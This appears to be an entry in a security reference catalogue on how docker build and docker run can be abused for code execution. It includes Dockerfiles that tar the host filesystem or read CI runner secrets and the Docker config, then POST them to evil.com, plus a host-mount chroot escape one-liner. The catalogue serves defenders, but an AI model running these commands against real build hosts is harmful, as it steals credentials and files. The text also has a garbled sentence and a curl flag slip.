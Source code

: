 ```yaml
---
title: docker
tags:
  - cli
  - config-file
  - eval-sh
references: 
files: [Dockerfile]
---
```


Docker is a container tool to create OCI image and run containers. The build stage can be configured using a Dockerfile. See [Dockerfile reference](https://docs.docker.com/reference/dockerfile/) and [Dockerfile overview](https://docs.docker.com/build/concepts/dockerfile/). 

## `docker build`

`docker build <path>` allow RCE in the context of the build:
  - if the Dockerfile can be modified, by adding `RUN <sh_cmd>`.
  - if the input of `RUN` is controllable.
Since the build command set the context to a copy of the current folder, we can't the filesystem. If we have control over the context path `docker build <controlled_path> -f <Dockerfile>`, we can exfiltrate any data from the host.


Exfiltrate every file available
```Dockerfile
FROM alpine/curl
RUN --mount=type=bind,source=/,target=/host \
    tar -czf /src.tar.gz /host/*;
RUN curl -X POST -d "/src.tar.gz" http://evil.com
```

Exflitrating runner secrets
```Dockerfile
FROM alpine/curl
ADD /home/runner/.docker/config.json config.json
RUN --mount=type=secret,id=<secret_name> \
    curl -X POST -d "@/run/secrets/<secret_name>" http://evil.com
```

## `docker run`

If we have control over the docker arguments, we can run command directly, see [GTFOBins](http://gtfobins.github.io/gtfobins/docker/).

```sh
docker run -v /:/mnt --rm -it alpine chroot /mnt <cmd>
```

